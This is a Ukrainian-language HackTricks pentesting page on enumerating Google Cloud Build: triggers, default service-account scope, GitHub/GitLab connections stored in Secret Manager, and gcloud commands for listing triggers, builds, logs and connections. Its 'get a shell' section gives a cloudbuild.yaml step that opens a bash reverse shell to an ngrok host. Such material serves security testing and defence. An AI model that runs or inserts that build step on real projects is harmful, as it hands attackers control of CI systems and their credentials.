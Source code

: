 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Основна інформація

Google Cloud Build - це керована CI/CD платформа, яка **автоматизує процеси створення** та випуску програмного забезпечення, інтегруючись з **репозиторіями вихідного коду** та підтримуючи широкий спектр мов програмування. Вона **дозволяє розробникам автоматично створювати, тестувати та розгортати код**, надаючи можливість налаштовувати етапи створення та робочі процеси.

Кожен тригер Cloud Build **пов'язаний з Cloud Repository або безпосередньо підключений до зовнішнього репозиторію** (Github, Bitbucket та Gitlab).

> [!TIP]
> Я не зміг знайти жодного способу вкрасти токен Github/Bitbucket звідси або з Cloud Repositories, оскільки, коли репозиторій завантажується, він доступний через URL [https://source.cloud.google.com/](https://source.cloud.google.com/), а Github не доступний клієнтом.

### Події

Cloud Build може бути активований, якщо:

- **Push до гілки**: Вкажіть гілку
- **Push нового тегу**: Вкажіть тег
- **Pull request**: Вкажіть гілку, яка отримує PR
- **Ручний виклик**
- **Повідомлення Pub/Sub:** Вкажіть тему
- **Подія Webhook**: Відкриє HTTPS URL, і запит повинен бути аутентифікований за допомогою секрету

### Виконання

Є 3 варіанти:

- YAML/JSON **з вказівкою команд** для виконання. Зазвичай: `/cloudbuild.yaml`
- Лише один, який можна вказати “inline” у веб-консолі та в CLI
- Найбільш поширений варіант
- Важливий для неавтентифікованого доступу
- **Dockerfile** для створення
- **Buildpack** для створення

### Дозволи SA

**Обліковий запис служби має область `cloud-platform`**, тому він може **використовувати всі привілеї.** Якщо **не вказано SA** (як при подачі), буде використано **за замовчуванням SA** `<proj-number>@cloudbuild.gserviceaccount.com`.

За замовчуванням не надаються дозволи, але їх досить легко надати:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Затвердження

Можна налаштувати Cloud Build, щоб **вимагати затвердження для виконання збірок** (за замовчуванням вимкнено).

### Затвердження PR

Коли тригер є PR, оскільки **будь-хто може виконувати PR до публічних репозиторіїв**, було б дуже небезпечно просто **дозволити виконання тригера з будь-яким PR**. Тому за замовчуванням виконання буде **автоматичним лише для власників та співпрацівників**, і для виконання тригера з PR інших користувачів власник або співпрацівник повинен прокоментувати `/gcbrun`.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### З'єднання та репозиторії

З'єднання можуть бути створені через:

- **GitHub:** Відобразить запит OAuth, що запитує дозволи на **отримання токена Github**, який буде збережено в **Secret Manager.**
- **GitHub Enterprise:** Запитає встановити **GithubApp**. Аутентифікаційний токен з вашого хосту GitHub Enterprise буде створено та збережено в цьому проекті як секрет **Secret Manager**.
- **GitLab / Enterprise:** Вам потрібно **надати токен доступу API та токен доступу для читання API**, які будуть збережені в **Secret Manager.**

Після створення з'єднання ви можете використовувати його для **зв'язування репозиторіїв, до яких має доступ обліковий запис Github**.

Ця опція доступна через кнопку:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Зверніть увагу, що репозиторії, підключені цим методом, **доступні лише в тригерах, що використовують 2-ге покоління.**

### Підключити репозиторій

Це не те саме, що **`з'єднання`**. Це дозволяє **різні** способи отримати **доступ до репозиторію Github або Bitbucket**, але **не генерує об'єкт з'єднання, але генерує об'єкт репозиторію (1-го покоління).**

Ця опція доступна через кнопку:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Сховище

Іноді Cloud Build **генерує нове сховище для зберігання файлів для тригера**. Це відбувається, наприклад, у прикладі, який пропонує GCP з:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Створено сховище з назвою [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) для зберігання `.tgz` з файлами, які будуть використані.

### Отримати оболонку
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Встановіть gcloud всередині cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Перерахунок

Ви можете знайти **чутливу інформацію в конфігураціях збірки та журналах**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Підвищення Привілеїв

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Неавтентифікований Доступ

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Після Експлуатації

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
